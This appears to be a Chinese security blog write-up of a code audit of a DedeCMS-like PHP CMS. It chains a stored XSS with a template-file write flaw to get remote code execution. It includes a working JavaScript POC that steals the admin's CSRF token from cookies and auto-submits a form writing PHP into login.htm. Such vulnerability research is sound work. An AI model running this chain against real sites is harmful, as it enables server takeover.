# 记一次代码审计中RCE挖掘及POC编写。 - 先知社区

记一次代码审计中RCE挖掘及POC编写。

- - -

记一次RCE漏洞挖掘及POC编写。

## 从危险的模板引入开始

在前面熟悉代码的过程中，可以注意到此CMS的模板引入方式。以catalog\_add.php文件为例，直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在php中，include的使用需要更谨慎才对。  
`include XXInclude('templets/catalog_add.htm');`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112103-039a0490-7eaf-1.png)  
问题出现在src/admin/file\_manage\_control.php文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112227-35928274-7eaf-1.png)  
查看变量处理，针对变量$activepath，处理的关键逻辑在15、16、17行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112308-4e148d92-7eaf-1.png)  
针对变量$filename，处理的关键逻辑在44-48行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的`..`，并限制可以上传或编辑的文件扩展名不能为(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)其中的任意项。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112328-59d8998e-7eaf-1.png)  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀htm会是合法的。  
所以，此时可以将任意文件内容写入到htm文件中，为什么要写入到htm文件？因为此系统所使用的模板文件就是htm，而我前面提到了直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中会造成的危害也就是这里体现出来：将php脚本放在htm中，当被include的时候，php脚本便会执行。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112403-6e596096-7eaf-1.jpg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112437-82ae018c-7eaf-1.png)

## 组合拳进行危害提升

上面可以通过模板文件写入的方式RCE了，但是很鸡肋，这样只能是后台rce，这时候想将漏洞变成未授权的RCE只需要解决两个问题：  
1 只有管理员权限才能访问/admin路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过login文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过XSS、或者CSRF打出组合拳或者直接尝试找到SQL注入登录后台就能解决。  
那接下来的思路就是通过找到有效的XSS/CSRF/SQL注入，让我们能以管理员的身份写入shell到/admin/login.htm文件中。  
进入到src/admin/article\_edit.php文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处148行有一处疑似有问题的SQL语句。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112506-943e5ff0-7eaf-1.png)  
这个查询语句的目的是将一条记录跟新到名为 `$addtable`(此处即biz\_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。

```plain
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```

进一步跟进dsql->ExecuteNoneQuery函数，发现系统是在执行SQL的时候做了安全检查，跟进CheckSql，发现是有针对SQL注入存在详细的过滤，不排除有绕过SQL的手法，但是此处选择另一条简单的利用思路。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112548-ad0094b8-7eaf-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109120020-80033560-7eb4-1.png)  
因为没有对参数做xss的过滤，所以此时考虑利用存储型的XSS漏洞即可，去功能点用payload插入含有输出点的body参数进行测试，发现成功执行。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109120049-9183aebe-7eb4-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231109120110-9dbac3b6-7eb4-1.png)

## 整合思路编写POC

思路也是比较清晰  
1.攻击者利用普通用户的文档编辑功能，将XSS的payload藏在文档中。  
2.管理员用户对普通用户的文档进行审核时执行XSS的payload，在不知情的情况下将shell写在/admin/login.htm文件中  
3.getshell，地址为：[http://xxx/admin/login.php](http://xxx/admin/login.php)  
POC和部分截图放在下面

```plain
//将此脚本放在浏览器控制台执行即可获得payload
var codeString = "//  获取URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231109110801-31582f6c-7ead-1.png)  
本篇文章因为一些原因（懂的都懂）。。。  
在尽量不影响阅读的前提上加了厚马，若有师傅想要源码进行复现学习的可以再联系我。
